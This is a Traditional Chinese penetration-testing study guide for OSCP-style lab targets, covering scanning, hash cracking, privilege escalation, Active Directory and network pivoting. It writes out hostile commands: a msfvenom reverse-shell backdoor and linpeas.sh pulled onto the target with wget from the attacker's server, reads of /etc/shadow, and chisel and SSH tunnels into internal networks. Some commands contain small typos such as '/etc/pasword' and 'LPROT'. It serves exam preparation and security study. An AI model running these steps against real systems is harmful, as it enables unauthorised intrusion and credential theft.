

# 滲透流程


## 說在前面

* 策略(attack path) -> 方法(knowledge) -> 工具(cheat sheet)
* [線上靶機題目精選](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview?pli=1)
* [HTB 策略](https://benheater.com/my-ctf-methodology/)
* [HTB Writeup](https://0xdf.gitlab.io)
* [OSCP CheatSheet](https://github.com/0xsyr0/OSCP)
* [優質解題影片](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [HackTricks](https://book.hacktricks.wiki/en/index.html)
* 路上找到的洞請回報給 [HITCON ZeroDay](https://zeroday.hitcon.org)

### TryHackMe VPN

1. 在 [access](https://tryhackme.com/access) 下載 config
2. `sudo openvpn <name>.ovpn`
3. `ip a s tun0` 查看你在 VPN 的 IP

### HackTheBox VPN


### 1. 思考欲達成目標（策略）

* 掃 port 發現 `8081` 有網站服務，是特定的內容管理系統(CMS)，如 WordPress
* 列舉網站服務，發現 Directory Listing 頁面，其中有 `Backup.zip`
* 載下來暴力破解 hash 找密碼
* 發現裡面有 credentials 洩漏
* 找到 CMS 版本存在一個 Auth 的 RCE 利用
* 使用 credentials 成功利用並執行 RCE  -> 拿到 Initial Access

:::tip[在每一個位置，要思考目前可以做的有哪些？]
* 準備 checklist
* 發現一個 WordPress 服務 => 列舉路徑、預設密碼、CMS Scanner、已知 CVE 漏洞、config 設定檔
:::

## 2. 技術原理

* 看到一個網站可能 Upload overwrite htaccess 取得 user 權限
* 要知道怎麼 upload，要用什麼工具？
* 如果拿到一個上鎖的 `backup.zip`，要知道怎麼破解密碼 -> hydra
* 遇到 AD 機器，也許可以 AS-REP Roasting / Kerberoasting，這是什麼樣的攻擊技術？什麼時候會用到？

> 舉個例子，Evil-winrm、xfreerdp 都是好用的工具，但你知道它們的原理是走哪個 Port 嗎，如果你根本不知道，結果目標主機根本就沒開相對應的服務跟 port，然後就在那邊亂試，就是你沒了解技術。

## 3. 作弊表和工具

* 考試前應該還是要有好的筆記跟準備好工具
* 光是找指令或工具就花費很多時間
* 或是幫環境跟工具 debug 浪費時間
* 可運用筆記軟體紀錄　e.g. HackMD, Notion, ...
    * Cheat Sheet
    * AD Cheat Sheet
    * Linux 提權
    * Windows 提權
    * Checklist

:::important
雖然在許多 rabbit hole 是確實可能存在的，但不管是在練習時，或是考試時，如果一個漏洞或是 Exploit 你無法成功利用，但你是有高度把握應該成功的，請不要猶豫的盡情 Revert 機器！
:::

## 偵查（Recon）

* 知道有哪些目標並制定攻擊計畫
* 外網偵查：大範圍尋找突破口，找到目標的 Initial Access
    * IP/域名掃描
    * ASN 查 IP
    * SSL 證書反查域名
    * 做 OSINT 以便爆破密碼或之後進入內網之後有妙用
* 內網偵查
* OSCP 允許的 [AutoRecon](https://github.com/Tib3rius/AutoRecon)

```bash frame="none"
autorecon pwn2ooown.com -o ./autorecon
autorecon — nmap-append=" — min-rate=2000" — exclude-tags="top-100-udp-ports" — exclude-tags nikto — dirbuster.threads=4 — dirbuster.tool=dirsearch -vv <IP>
```

# 實戰流程

# 1. Information Gathering

* 決定要攻擊的 IP
* 掃描開放的 port（namp/rustscan）
* 有開哪些服務
* [Shodan](https://www.shodan.io)：掃描 hostname 底下的服務
* [別人分享的檢查表](https://parzival.sh/blog/my-oscp-notes-and-resources)


## 檢查表範例

 - [ ] 掃描 Port - Rustscan
 - [ ] Subdomain 列舉 - dnsenum
 - [ ] VHOST 列舉 - ffuf / gobuster
 - [ ] 掃描出 subdomain 後加入到 `/etc/hosts`
 - [ ] nikto, nslookup, dig, AutoRecon


## Port Scanning

```bash frame="none"
rustscan -a <IP> -r 1-65535 --ulimit 5000
rustscan -a <IP> --ulimit 5000 -- -sC -sV    # 服務版本
nikto $ip
nslookup $ip
dig axfr $ip
```

### 重要的服務

* 21：ftp
* 22：ssh
* 80/443：http(s)
* 389：ldap
* 445：smb
* 587：smtp
* 5985：winrm

## Subdomain Enumeration

```bash frame="none"
dnsenum -f /usr/share/wordlists/amass/subdomains-top1mil-5000.txt 4876387.xyz
ffuf -c -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil-20000.txt -u http://{domain.name}/ -H "Host: FUZZ.{domain.name}"
```
## VHOST Enumeration

* 看看有沒隱藏的 subdomain

```bash frame="none"
ffuf -u http://4876387.xyz/ -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -H "Host: FUZZ.4876387.xyz" -ac
gobuster vhost --useragent "PENTEST" --wordlist "/usr/share/wordlists/amass/subdomains-top1mil-5000.txt" --url http://pwn2ooown.zyx
gobuster dns -d pwn2ooown.zyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 16 
```

> 由詢問 DNS Server 可能的 subdomain 看有沒有反應
VHOST：看這台伺服器上面有沒有隱藏的 subdomain
基本上都是要找尋 target.tld 有沒有 xxx.target.tld 的隱藏服務

### 網站路徑掃描

* [Feroxbuster](https://github.com/epi052/feroxbuster)
* Dirbuster
* 先列舉所有目錄，再去找檔案

```bash frame="none"
sudo apt install seclists
feroxbuster --url http://4876387.xyz/ -C 404 -d 1 -x html   # 指定附檔名
feroxbuster --url http://10.55.0.52/ -C 404 -d 1
feroxbuster -u http://pwn2ooown.zyx --silent                # 基本資訊
feroxbuster -u http://192.168.1.4 -r                        # 輸出結果再跑一次
feroxbuster -u http://192.168.1.4 -C 403,404                # 過濾狀態碼
```

> 目錄字典檔位於 `/usr/share/seclists/Discovery/Web-Content/
> /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt`

## SMB

* 讓 Linux 機器也加入 Windows 機群的**網路上的芳鄰**
* Windows 電腦可透過網路芳鄰存取 Linux 主機的檔案
* LAN 裡面的 Windows 很簡單的就可以對 Linux 主機進行檔案存取
* SAMBA 檔案系統是基於 NetBIOS 通訊協定 

```bash frame="none"
smbclient -L 192.168.255.1
smbclient -L 192.168.255.1 -U guest
smbclient 192.168.255.1/Public -U guest
smbmap -H 192.168.255.1                    # 列舉共享資料夾
smbmap -H 192.168.255.1 -u raj -p 123
```


# 2. Vulnerability Detection

* 尋找是否有任何存在的漏洞
* Nessus、Nuclei
* OWASP Top 10
* 敏感資料：robots.txt、.git、備份資料
* 版本對應的 Metasploit, searchsploit module
* Password cracking -> Hydra 或自己寫
* 密碼爆破(hash) -> HashCat / John 
* 自動掃描工具
* 最後拿到低權限 shell


1. Nuclei

```bash frame="none"
nuclei -u http://example.com
dirbuster
```

## 密碼爆破

### Hashcat

* 下指令的時候要參考[加密方式表(format)](https://hashcat.net/wiki/doku.php?id=example_hashes)

```bash frame="none"
hashcat -m <format> hash.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 3200 -a 0 hash.txt rockyou.txt --session=sess
```


### John The Ripper

```bash frame="none"
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=md5 --session=myjob
john --restore=myjob
```

# 3. Initial Foothold
* 立足點，復活點
* 接著可以爬到別台機器／內網

# 4. Privilege Escalation

目前已經有 foothold，接著要試著進去內網：

* 拿到最高權限（PrivEsc）
* 掃描內網尋找弱點服務、弱密碼
* 橫向移動，安裝後門

## Useful Tool

* 取得 root 或 adminstrator 的權限
* 刪除關鍵 log、關掉防毒
* Active Directory (AD)：集中管理公司帳號、電腦、群組、資源
* [枚舉弱點配置腳本](https://github.com/peass-ng/PEASS-ng)
* Linux：加入 SetUID 權限後，其他用戶可以用檔案持有者身分執行檔案
* 可以用 `sudo -l` 查看當前身分有哪些指令可用
* [Linux 提權建議腳本](https://github.com/The-Z-Labs/linux-exploit-suggester)
* [Linux Kernel Exploit Collection](https://github.com/xairy/linux-kernel-exploitation)
* [Windows 提權建議腳本](https://github.com/bitsadmin/wesng)
* [Windows 提權枚舉腳本](https://github.com/itm4n/PrivescCheck)
* [Windows Kernel Exploit Collection](https://github.com/SecWiki/windows-kernel-exploits)
* [Windows 提權食譜](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook)
* TryHackMe 練習場 - [Linux PrivEsc Arena](https://tryhackme.com/room/linuxprivescarena)
* TryHackMe 練習場 - [DirtyPipe](https://tryhackme.com/room/dirtypipe)
* TryHackMe 練習場 - [LWindows PrivEsc](https://tryhackme.com/room/windows10privesc)

## Linux Privilege Escalation

* 自動枚舉漏洞
* [Kernel Exploit Collection](https://github.com/xairy/linux-kernel-exploitation)


### SetUID / SetGID

* SetUID：當檔案的所有者是 root 時，任何使用者執行該檔案時，會以 root 的權限來執行
* 檔案加入 SetUID 後，其他用戶可以用檔案持有者的身分執行
* 某個程式是 root 持有，但有 SetUID 就有可能濫用變成 root
* [GTFOBins](https://gtfobins.github.io)
* SetGID：執行該檔案的使用者會繼承檔案所屬群組的權限
* UID/GID（eUID/eGID）：當使用者或系統腳本啟動一個具有 SUID 權限的應用程式時，這個應用程式會繼承發起該腳本的使用者或群組的 UID/GID，這被稱為有效 UID/GID（eUID, eGID）

```bash frame="none"
find / -perm -u=s -type f 2>/dev/null   # 尋找 SUID 檔案
find / -writable -type d 2>/dev/null    # 尋找可寫檔案
# 有點可疑但上面沒列出
strace (MALICIOUS SUID PATH) 2>&1 | grep -i -E “open|access|no such file”

```

### Automated Enumeration

* 在靶機下載本機的 `linpeas.sh`，接著把執行結果輸出到 output.txt

```bash frame="none"
wget http://ip:port/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee output.txt
./usr/bin/unix-privesc-check standard   # kali-builtin
```

### Enum Users

```bash frame="none"
cat /etc/pasword
```

### Enum System

```bash frame="none"
uname -a              # 系統內核版本 -> google cve
cat /etc/issue        # 作業系統版本
cat /etc/os-release   # 特定於發布的信息
ps aux | grep root    # 列出系統 process
```

### Enum User

```bash frame="none"
sudo -l            # run as root
cat /etc/passwd    # all users
cat /etc/shadow    # passwd file for users
cat History        # command history
```

### Enum Networking

* 遠端利用時防火牆的 state, profile, rules 在提權可能會使用到
* 收集有關 inbound 與 outbound port filtering 的資訊，以便在轉向內部網路時方便進行 port forwarding 和 tunneling 傳輸
* 必須具有 root 權限才能使用 iptables 列出防火牆規則
* 防火牆的 configured，可以作為一般使用者收集有關規則的資訊。其中也包含 iptables-save 創建的檔案，將 firewall configuration 轉存到 user 中

```bash frame="none"
ip a
ifconfig                      # 上述指令的替代
arp -a                        # 可到達的主機
ip neigh                      # 上述指令的替代
routel                        # 路由表
ss -anp                       # 活動的網路連接和監聽端口
cat /etc/iptables/rules.v4    # 防火牆規則
```

### Cron Jobs

* 排程工作會在 `/etc/cron.*` 目錄下
* 裡面有 daily, hourly 等工作
* 系統管理員經常在 /etc/crontab 檔案中新增自己的排程任務
* 檢查 `/etc/crontab` 檔案權限（要用 root 編輯）

```bash frame="none"
ls -lah /etc/cron*
cat /etc/crontab
crontab -l            # 排程任務列表
```

### mount & /etc/fstab

* 在大多數系統上， drives 在啟動時會自動安裝
* 我們很容易忘記可能包含有價值資訊的 unmounted drives
* 如果 unmounted drives 存在，則可以檢查安裝權限

```bash frame="none"
cat /etc/fstab   # 列出了啟動時將安裝的所有 drives
mount            # 列出所有已掛載的檔案系統
```

### Exposed Confidential Information


## Windows Privilege Escalation

* Kerbrute
* Kerberosting：AD 使用 Kerberos 協定來處理使用者驗證，此攻擊主要破解帳戶密碼
* Winpeas
* Potato Series
* 建議器

打進去後用 `systeminfo` 把裡面的資訊抓出來存在 txt 檔裡

```bash frame="none"
./windows-exploit-suggester.py --database 2023-03-01-mssb.xls --systeminfo systeminfo.txt 
./windows-exploit-suggester.py --upgrade
```

### AD（Active Directory）

* Windows Server 中用來建立中大型網路環境的集中式**目錄管理服務**
* 網路物件：使用者、群組、電腦、網域控制站、郵件、設定檔、組織單元、樹系
    * Forest 樹系：由一個以上的 domain 組成
    * 每個 domain 至少有一個以上的 domain controller
    * AD DS 有各種服務，如：LDAP、SMB、Kerberos、DNS、NTP
* 在 AD Schema 中定義的物件就可以儲存在 AD 資料庫中，並透過 Service Interface 存取
* 掃描一下機器拓樸
* 尋血犬 BloodHound：分析網域物件資訊、圖形化、物件關係
* 雖然 9 成企業有安裝 AD CS，但是其中 7 成設定不安全，其中又有 8 成可利用

```bash frame="none"
net user                    # 本地使用者
net user /domain            # 網段中的使用者
net user <name> /domain     # 列舉指定使用者
```

### Kerberos Authentication

1. AS-REQ（請求 TGT）：用 client’s secret key(從密碼衍伸) 加密 timestamp (pre-quthentication)
2. AS-REP（頒發 TGT）：DC 用 client’s secret key 解開 timestamp 驗證，接著頒發的 TGT 以 krbtgt’s secret key 加密
3. TGS-REQ（請求 ST, service ticket）：包含取得的 TGT 和目標 SPN
4. TGS-REP（頒發 ST）：DC 用 krbtgt’s secret key 解開 TGT 驗證資訊，接著頒發 ST 以 Server’s secret key 加密
5. AP-REQ（存取服務）：包含 ST，由 Server 解密 ST 驗證資訊
6. AP-REP（Optional）：雙向驗證時需要

# 5. Lateral Movement

* 先備知識：routing, NAT, proxy, iptables, metasploit, reverse shell
* 在內網中尋找目標
* [內網綜合掃描工具](https://github.com/shadow1ng/fscan)
* 找到機器後一樣掃 port 和 service：nmap/rustscan
* TryHackMe 練習場 - [Blue](https://tryhackme.com/room/blue)

## 掃描可達網段及機器

```bash frame="none"
# port scan
nmap -sn 192.168.1.0/24
for i in `seq 1 254`; do (ping -c 1 192.168.1.$i | grep "bytes from" &); done
# arp scan
netdiscover -r 192.168.1.0/24
```

## Metasploit Framework

1. 產生後門程式
* ip 填 interface ip (wg0)
* port 填彈回來的 shell 接入的 port
2. 開啟 C2 監聽器
3. 開啟本地 http server (8000)
    * `python3 -m http.server`
4. 去靶機的 /tmp 執行 wget ip:port:8000/backdoor
5. 加上執行權限 `chmod +x ./backdoor`
6. 本機可以看到收到東西了


```bash frame="none"
# 產生後門 ELF
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f elf -o backdoor
# 開啟 C2 監聽器
msfconsole
use linux/x64/meterpreter/reverse_tcp
set LHOST wg0 (192.168.255.139)
set LPROT 8888    # 和後門的一樣
exploit
```

## Reverse Shell

* 在本地開 port，等目標反連回來的 shell
* 通常要有 public IP
* [Vanilla generator](https://www.revshells.com)
* [Upgrade generator](https://github.com/antonioCoco/ConPtyShell)

```bash frame="none"
nc -lvnp 8888                 # listen

# execute reverse shell payload #

rlwrap nc -lvnp 8888
```

## C2 Framework

* Connect & Communication
* Cobalt Strike
* Metasploit
* Powershell Empire

### 使用 Metasploit 產生後門

```bash frame="none"
msfconsole
use linux/x64/meterpreter/reverse_tcp
set LHOST wg0
set LPORT 8888
exploit
```

# 6. Network Pivoting

* 內網(intranet)漫遊、跳板
* 由於網段劃分，所以只能摸到有限的機器 -> 找多網卡機器
* 內網有防火牆
* 在滲透企業的時候，需要在內網網段跳來跳去
* [介紹文章](https://johnliu55.tw/ssh-tunnel.html)
* 重要：好好記錄轉發 port
* 工具：[chisel](https://github.com/jpillora/chisel)、[ligolo-ng](https://github.com/nicocha30/ligolo-ng)、frp
* 由於最外層的 Server 認不出內層的 AD，需要經由中間的 Proxy 轉發



* 對內網探測是**對內**，連到外面要 Port Forwarding（對外） 
* 跳板機器需要**雙網卡**，並且要能 SSH 連線
* 用跳板機掃描相同網段中的 Web Server 位址(nmap)
* 攻擊機：`ssh -D 1080 user@10.55.0.52 -p 7788`
* attacker:1080 開始監聽
* 送到 attacker:1080 的流量會轉交給跳板機送出
* 跳板機即為 sock5 proxy server


## 實作

正向：attacker 訪問 `localhost:5555` 可以接著訪問內網機 8000 port

```bash frame="none"
# 外網
chisel client <pivot IP>:<listen port> <轉給攻擊機的port>:<target IP>:<target intranet port>
chisel client 10.10.11.105:6666 5555:127.0.0.1:8000
# 內網
chisel server -p 6666
```

反向：attacker 訪問 `127.0.0.1:5555` 可以接著訪問內網機 8000 port

* 攻擊機執行：`chisel server --reverse --port 12345 --socks5`
* 跳板機執行：`chisel client <attacker ip>:12345 R:1080:socks`
* 跳板機在 localhost:1080 開一個 socks proxy 的 port

```bash frame="none"
# 探測內網服務
# localhost:9999 -> webserver:80
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 R:9999:<webserver ip>:80
# 內網機反連
# jump:9999 -> attacker:8888
# 從 webserver 打 reverse shell 到 jump:9999，在給 attacker:8888
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 0.0.0.0:9999:<attacker ip>:8888
# 代理模式
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 R:1080:socks
```

> 推薦網內的流量使用代理模式，但是 socket proxy 比較慢而且會掉包，因此建議不要從最外層掃描深入機器的所有 port，要使用 C2 Agent！

##  SSH Tunneling
* 在兩台機器的特定 port 建立 ssh 連線
* 可穿透防火牆
* A 點上的某個 Port X 所傳送的資料轉送(forward)至 B 點上的 Port Y
* 種類：Local, Remote, Dynamic
* 角色
Client：可執行 SSH 來啟動 Port Forwarding 的任何機器
SSH Server：可以被 client 用 SSH 連進去的機器
Target Server：某台你想建立連線的機器，為了對外開放這台機器上的服務
Client/SSH Server 也可是當作 target，不一定要有 3 台機器才能 port forwarding


Local：


攻擊機執行：`ssh -L 9999:webserver:80 user@10.55.0.52 -p 7788`
把流量送到攻擊機 9999 port，再傳給跳板機轉到 80 port


## ProxyChain

* 先修改 /etc/proxychains.conf
* 新增內容 socks5 127.0.0.1 1080
* 先在本地 kali 啟用 SOCKS proxy（透過 SSH 到 vincent）
    * 在 localhost:1080 建立一個 SOCKS v5 代理，所有透過這個 proxy 的連線，最終都會經過 vincent 主機發出
* 使用 proxychain

```bash frame="none"
# 先在本機打開 SOCKS proxy 到 vincent
ssh -D 1080 vincent@192.168.255.138
# 掃描該網段的 port
proxychains nmap -sS -p- 192.168.255.0/24
proxychains rustscan -a 192.168.255.0/24
```

# 8. Reporting/Analysis
* 撰寫滲透測試報告
* 參考 OSCP/HackTheBox 提供的範例